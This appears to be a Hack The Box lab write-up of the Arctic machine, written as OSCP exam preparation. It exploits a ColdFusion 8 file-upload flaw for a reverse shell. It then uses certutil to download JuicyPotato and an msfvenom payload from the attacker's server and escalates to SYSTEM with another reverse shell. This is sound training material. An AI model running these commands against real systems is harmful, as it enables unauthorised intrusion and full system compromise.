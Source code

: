 ```yaml
---
layout: post
title:  HTB Arctic Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-18 05:00:00 +0300
image:  '/images/htb_arctic.png'
tags:   [Write-ups, HTB, OSCP+, Easy, Windows, ColdFusion, CVE, Arbitrary-File-Upload, JuicyPotato, MSFVenom]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [CVE-2009-2265 - Arbitrary File Upload](#cve-2009-2265---arbitrary-file-upload)
- [Privilege Escalation](#privilege-escalation)
  - [Using JuicyPotato.exe to abuse SeImpersonatePrivilege enabled to get access as system with a msfvenom reverse shell](#using-juicypotatoexe-to-abuse-seimpersonateprivilege-enabled-to-get-access-as-system-with-a-msfvenom-reverse-shell)

# Enumeration
### Nmap 10.129.134.186

```shell
# Step 1 - Find active ports
nmap -p- -Pn --min-rate 10000 10.129.134.186

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p135,8500,49154 10.129.134.186
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-17 23:44 EST
Nmap scan report for 10.129.134.186
Host is up (0.036s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.60 seconds
```

There are three ports open, the ports 135 and 49154 seem to use RPC and the port 8500 seems to be some kind of website.
### Website Enumeration
Lets use our web browser to visit the port 8500:

```shell
http://10.129.134.186:8500/
```

Upon visiting it, we can see an index containing two directories:

```shell
CFIDE/               dir   03/22/17 08:52 μμ
cfdocs/              dir   03/22/17 08:55 μμ
```

They seem to be related to ColdFusion (CF).

Clicking on them and doing some enumeration, we found the following login portal:

```shell
http://10.129.134.186:8500/CFIDE/administrator/
```

Now we can see that the target is indeed running Adobe ColdFusion 8.

We tried some default credentials on the login portal to get access. But we werent successful.

# Foothold
### CVE-2009-2265 - Arbitrary File Upload
Searching on Google and searchsploit we found the CVE-2009-2265.

Lets get it using searchsploit:

```shell
searchsploit -m 50057
cp 50057.py exploit.py
```

Edit the exploit changing the following part of the code with our Kali tun0 IP and port, target IP and target port:

```shell
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.206'
    lport = 8443
    rhost = "10.129.134.186"
    rport = 8500
    filename = uuid.uuid4().hex
```

Run the exploit after saving the changes (We dont need to start a nc listener, the exploit will do that for us):

```shell
# Run the exploit
python3 exploit.py
```

Nice! We got access as tolis:

```shell
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.134.186] 49269







Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\tolis\Desktop\user.txt
```

# Privilege Escalation
### Using JuicyPotato.exe to abuse SeImpersonatePrivilege enabled to get access as system with a msfvenom reverse shell
Enumerating the system we found out that the user has SeImpersonatePrivilege enabled:

```shell
C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We will try using JuicyPotato.exe to escalate privileges.

Lets download it and also create a shell.exe reverse shell payload with msfvenom:

```shell
# Get JuicyPotato.exe
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# Create shell.exe reverse shell payload with msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.206 LPORT=9001 -a x64 --platform Windows -f exe -o shell.exe
```

Now move it into the target and run it:

```shell
# On Kali
python3 -m http.server 8080

# On target CLI
cd C:\Users\Public\Documents
certutil.exe -urlcache -split -f http://10.10.14.206:8080/JuicyPotato.exe JuicyPotato.exe
certutil.exe -urlcache -split -f http://10.10.14.206:8080/shell.exe shell.exe

# Start nc listener on Kali
nc -lvnp 9001

# Now run JuicyPotato.exe
JuicyPotato.exe -t * -p C:\Users\Public\Documents\shell.exe -l 443
```

It worked! We got access as system:

```shell
listening on [any] 9001 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.134.186] 49361
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\Desktop\root.txt
```